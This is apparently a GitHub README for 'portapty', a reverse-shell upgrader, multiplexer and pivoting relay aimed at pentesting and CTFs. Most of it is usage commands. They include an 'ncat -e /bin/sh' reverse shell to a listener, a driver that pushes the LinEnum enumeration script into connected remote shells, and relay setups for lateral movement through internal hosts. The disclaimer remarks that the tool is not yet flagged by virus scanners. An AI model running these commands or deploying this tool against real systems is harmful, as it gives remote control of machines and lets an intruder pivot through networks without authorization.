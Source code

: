 # portapty

## What?
This is a portable pseudoterminal reverse shell upgrader and multiplexer
### What?
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes)

Multiplexer: multiple shells can connect at once

## Usage
```
portapty {client|server|keygen|relay|expose} OPTIONS
Options:
    client: [cert CERTHASH] to IP PORT [to IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver PATH] [cmd CMD] bind IP PORT [bind IP PORT]...;
    keygen: [cert CERTFILE] [key KEYFILE]
    relay:  bind IP PORT to IP PORT [bind|to IP PORT]...
    expose: [cert CERTFILE] [key KEYFILE] bind IP PORT to IP PORT [{bind|to} IP PORT]...
```
### Server
A simple invocation would be `portapty server eps :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking).

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] [::1]:57388 available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

If you had a script you wished to run on the remote, you could try the folowing:

```
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash eps :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also can elect to use `bash` rather than the standard shell with the system, which will make most scripts run better.

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client to :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= to :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```
### Relay and expose
This is one of the cooler features of portapty. This acts as a simple TCP forwarder, and so allows pivoting with a central server:

```bash
# Main server
portapty server key portapty.key cert portapty.crt bind 10.0.0.1 42069
# Pivot server
portapty relay bind 192.168.0.1 42069 to 10.0.0.10 42069
# Target server
portapty client cert FinGeRpRInt= to 192.168.0.1 42069
```

Since the client is encrypted end-to-end, this unencrypted relay usage is secure. However, `relay` could also be used as a port forwarder, and so would need encryption:
```bash
# Server you wish to receive connections on
portapty expose key portapty.key cert portapty.crt bind 10.0.0.1 42069 to ::1 8080
# Server you are proxying for
portapty relay cert FinGeRpRInt= bind :: 8080 to 10.0.0.1 42069
```

## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
